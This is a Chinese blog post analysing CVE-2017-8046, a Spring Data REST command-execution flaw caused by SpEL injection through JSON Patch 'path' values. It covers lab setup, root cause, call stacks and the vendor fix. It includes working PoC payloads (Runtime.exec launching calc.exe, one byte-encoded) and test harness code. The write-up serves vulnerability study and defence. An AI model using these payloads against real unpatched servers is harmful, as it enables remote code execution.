Title: CVE-2017-8046 Spring Data REST命令执行漏洞
Date: 2020-08-04 10:20
Category: 漏洞实践
Tags: Java,Spring Data,漏洞,表达式注入
Slug: 
Authors: bit4woo
Summary: 

# CVE-2017-8046 Spring Data REST命令执行漏洞

如有错误，敬请斧正！

## 漏洞简介


### 简要说明


该漏洞是由于“Spring表达式语言”Spring Expression Language (SpEL) 导致的问题。漏洞原因可以归属于“表达式注入”。

### 影响版本


- Spring Data REST组件的2.6.9 and 3.0.9之前的版本（不包含2.6.9和3.0.9 ）
- Spring Boot （如果使用了Spring Data REST模块）的1.5.9 和 2.0 M6之前的版本


这个漏洞真正影响的就是Spring Data REST组件，完整的名称是 spring-data-rest-webmvc-x.x.x.RELEASE.jar


### 漏洞利用条件


- 真实环境中一般会需要登录系统，除非接口存在未授权访问漏洞

## 基础知识

### Spring Expression Language (SpEL)

```
package com.example.accessingdatarest;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class spelTest {

    public static void main(String[] args) {

        //创建ExpressionParser解析表达式
        ExpressionParser parser = new SpelExpressionParser();
        //表达式放置
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")");//success

        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[]");//NullPointerException
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[1]");//success
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[a]");//success

        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").a");//success
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").1");//SpelParseException
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").");//SpelParseException

        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/a");//success
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/1");//success
        Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/");//SpelParseException
        Object value = exp.getValue();
        System.out.println(value);
        
        exp.setValue(new Person(),"111");//为了测试set方法对“尾巴”的需求
    }
}
```



### 关于JSON Patch


JSON Patch 就是以JSON格式来描述一个对JSON文档（到了web后端，可能是一个对象）的操作，操作包括【增、删、改、移动、复制、测试】


可以在 http://jsonpatch.com/ 上进一步了解。

## 漏洞复现

### 环境搭建

首先克隆如下项目到本地

```
git clone https://github.com/spring-guides/gs-accessing-data-rest.git
```

然后使用IDE打开其中的complete项目，并修改pom.xml中的spring-boot-starter-parent版本为1.5.6.RELEASE（存在漏洞的版本）。运行 src\main\java\com\example\accessingdatarest\AccessingDataRestApplication.java 启动web程序。


先创建一个用户，需要使用POST方法+JSON格式



使用PATCH方法修改一个用户的信息，这有助于我们理解JSON PATCH。



### 漏洞验证PoC


运行com.example.accessingdatarest.AccessingDataRestApplication。修改如上PATCH请求的path参数的值为如下值。然后通过burp发起请求，成功执行命令。

```
T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99, 97, 108, 99, 46, 101, 120, 101}))/lastName

//一些其他可用poc，值得注意的是("calc.exe")后面都有“尾巴”，如果没有这些尾巴，PoC将不能正确触发。
                   
T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/1

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/a

//在后续的处理过程中，斜杠会被替换成点号，点号表示访问属性

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[1]

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[a]

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").a
```



## 漏洞分析

在java.lang.Runtime#exec(java.lang.String)处下断点，并以debug模式运行com.example.accessingdatarest.AccessingDataRestApplication。和上面一样修改PATCH请求的path参数的值为payload，然后发起请求。 通过断点获取到如下调用栈信息：

```
getRuntime():58, Runtime (java.lang)
invoke0(Method, Object, Object[]):-1, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):62, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):43, DelegatingMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):498, Method (java.lang.reflect)
execute(EvaluationContext, Object, Object[]):113, ReflectiveMethodExecutor (org.springframework.expression.spel.support)
getValueInternal(EvaluationContext, Object, TypeDescriptor, Object[]):129, MethodReference (org.springframework.expression.spel.ast)
getValueInternal(ExpressionState):85, MethodReference (org.springframework.expression.spel.ast)
getValueRef(ExpressionState):57, CompoundExpression (org.springframework.expression.spel.ast)
setValue(ExpressionState, Object):95, CompoundExpression (org.springframework.expression.spel.ast)
setValue(Object, Object):438, SpelExpression (org.springframework.expression.spel.standard)
setValueOnTarget(Object, Object):167, PatchOperation (org.springframework.data.rest.webmvc.json.patch)
perform(Object, Class):41, ReplaceOperation (org.springframework.data.rest.webmvc.json.patch)
//我们可以从这里自己实现一个例子来验证漏洞。
    
apply(Object, Class):64, Patch (org.springframework.data.rest.webmvc.json.patch)
applyPatch(InputStream, Object):91, JsonPatchHandler (org.springframework.data.rest.webmvc.config)
apply(IncomingRequest, Object):83, JsonPatchHandler (org.springframework.data.rest.webmvc.config)
//开始处理JSON-Patch
    
readPatch(IncomingRequest, ObjectMapper, Object):206, PersistentEntityResourceHandlerMethodArgumentResolver (org.springframework.data.rest.webmvc.config)
read(RootResourceInformation, IncomingRequest, HttpMessageConverter, Object):184, PersistentEntityResourceHandlerMethodArgumentResolver (org.springframework.data.rest.webmvc.config)
resolveArgument(MethodParameter, ModelAndViewContainer, NativeWebRequest, WebDataBinderFactory):141, PersistentEntityResourceHandlerMethodArgumentResolver (org.springframework.data.rest.webmvc.config)
resolveArgument(MethodParameter, ModelAndViewContainer, NativeWebRequest, WebDataBinderFactory):121, HandlerMethodArgumentResolverComposite (org.springframework.web.method.support)
getMethodArgumentValues(NativeWebRequest, ModelAndViewContainer, Object[]):158, InvocableHandlerMethod (org.springframework.web.method.support)
invokeForRequest(NativeWebRequest, ModelAndViewContainer, Object[]):128, InvocableHandlerMethod (org.springframework.web.method.support)
invokeAndHandle(ServletWebRequest, ModelAndViewContainer, Object[]):97, ServletInvocableHandlerMethod (org.springframework.web.servlet.mvc.method.annotation)
invokeHandlerMethod(HttpServletRequest, HttpServletResponse, HandlerMethod):827, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handleInternal(HttpServletRequest, HttpServletResponse, HandlerMethod):738, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handle(HttpServletRequest, HttpServletResponse, Object):85, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch(HttpServletRequest, HttpServletResponse):967, DispatcherServlet (org.springframework.web.servlet)
doService(HttpServletRequest, HttpServletResponse):901, DispatcherServlet (org.springframework.web.servlet)
processRequest(HttpServletRequest, HttpServletResponse):970, FrameworkServlet (org.springframework.web.servlet)
service(HttpServletRequest, HttpServletResponse):843, FrameworkServlet (org.springframework.web.servlet)
//servlet的处理逻辑
    
//以下都是web容器的处理逻辑
service(ServletRequest, ServletResponse):742, HttpServlet (javax.servlet.http)
//..省略大量内容
run():61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run():745, Thread (java.lang)
```


通过上面的调用栈，发现问题的关键在于org.springframework.data.rest.webmvc.json.patch.ReplaceOperation#perform方法的后续逻辑。所以我尝试自己编写本地测试代码来进行漏洞复现，以便于理清漏洞触发流程。

### 本地测试一


由于org.springframework.data.rest.webmvc.json.patch.ReplaceOperation#perform方法的是protected的，我们的测试代码在com.example.accessingdatarest这个包中，无权限访问它。首先想到的方法就是通过反射方式来失效调用，代码如下。

```
package com.example.accessingdatarest;

import org.springframework.data.rest.webmvc.json.patch.ReplaceOperation;
import java.lang.reflect.Method;
import java.util.Arrays;

public class test {
    public static void main(String[] args) throws Exception {
        //path参数中后面的“/11”不能少，其底层方法使用“/”来做字符串分割的
        ReplaceOperation patchReplace = new ReplaceOperation("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/11","xxx");

        //getMethods不能获取到我们想要的perform方法，因为getMethods只返回公共方法
        Method[] methods = ReplaceOperation.class.getMethods();
        System.out.println(Arrays.asList(methods).toString());
        for (Method method: methods){
            System.out.println(method.getName());
        }

        //同上，只返回公共方法！
        //Method method = ReplaceOperation.class.getMethod("perform", Object.class, Class.class);

        //patchReplace.perform(new Person(),Person.class); //本来应该使用这个方法直接调用，但是perform函数不是public的。只好用反射来实现。

        Method method1 = ReplaceOperation.class.getDeclaredMethod("perform", Object.class, Class.class);
        Object[] argsxx= {new Person(),Person.class};
        method1.setAccessible(true);
        method1.invoke(patchReplace,argsxx);
    }
}
```



### 本地测试二

上面的方法是首先想到的，却不是最简单的方法。后来想到可以在相同的package中创建测试类，就简便多了。

```
package org.springframework.data.rest.webmvc.json.patch;
//创建一个和ReplaceOperation类一模一样的包名。这样当前类和ReplaceOperation类就处于同一个pacak中，就可以直接调用perform方法了。

import com.example.accessingdatarest.Person;

public class test {
    public static void main(String[] args) throws Exception {
        //path参数中后面的“/11”不能少，其底层方法使用“/”来做字符串分割的，并使用“.”点号重新拼接。
        ReplaceOperation patchReplace = new ReplaceOperation("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/11","xxx");
        //变形payload
        //ReplaceOperation patchReplace = new ReplaceOperation("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[a]","xxx");
        patchReplace.perform(new Person(),Person.class); //本来应该使用这个方法直接调用，但是perform函数不是public的。只好用反射来实现。
    }
}
```




### 关于payload的“尾巴”


在上面的PoC复现和测试过程中，我们注意到一个现象：

1、spelTest中的代码，正常触发的payload，不需要“尾巴”

2、而我们的漏洞PoC，ReplaceOperation的操作，则需要“尾巴”，否则不会触发。

这是怎么回事呢？仍然以ReplaceOperation的触发逻辑进行说明。

```
T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")
这个不带尾巴的payload，会被分隔为三个部分, 后续会进入到org.springframework.expression.spel.ast.CompoundExpression#getValueRef的逻辑中：

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/1
带有以上“尾巴”的会被分隔为四个部分，如下图：
```





经过长时间的分析对比，问题的关键出在org.springframework.expression.spel.ast.CompoundExpression#getValueRef函数。它依次使用getValueInternal()处理每个节点。

而最后一个节点是用getValueRef处理，getValueRef的内容是直接抛出异常，也就是说最后一个节点不会被真正执行。“尾巴”的作用是为了保证真正需要被执行的内容（比如exec）不是最后一个节点，所以“尾巴”只要保证格式正确，内容不重要。




### 各种JSON-Patch操作和“尾巴”的关系

经过测试，不同的op对“尾巴”的要求不一样，通过测试得出如下规律，以及导致这个规律的根本原因。

```
add    -- 命令会被执行三次，payload需要尾巴！！！  本质是set操作
replace-- 命令会被执行一次，payload需要尾巴        本质是set操作

test   -- 命令会被执行一次，payload不需要尾巴 本质是get操作
remove -- 命令会被执行一次，payload不需要尾巴 本质是get操作
move   -- 命令会被执行一次，payload不需要尾巴 本质是get操作
copy   -- 命令会被执行一次，payload不需要尾巴 本质是get操作

我们可以得出这样的结论：
set操作相关的方法一定需要“尾巴”才能成功触发。原因就是如上一个步骤，org.springframework.expression.spel.ast.CompoundExpression#getValueRef是关键点
get操作相关的方法，有没有“尾巴”都能成功触发。有尾巴的情况和set操作的一致；没有尾巴的payload触发流程则和它们不同。
```

### 


### 

## 漏洞修复思路

通过分析1.5.10.RELEASE版本中的修复方案，可以看出是通过verifyPath函数对收到的请求中的path进行判断。



在Spring Data REST中，path的本质是目标对象的属性，修复方案的关键逻辑是：尝试从目标对象的类中（这个例子中就是com.example.accessingdatarest.Person这个class）获取这个属性（也就是path），如果不存就抛出异常。相当于一个白名单。



也就是说，只要经过解析得到的path不是类的属性名称，就会报错，完全没有绕过这个过滤的可能。

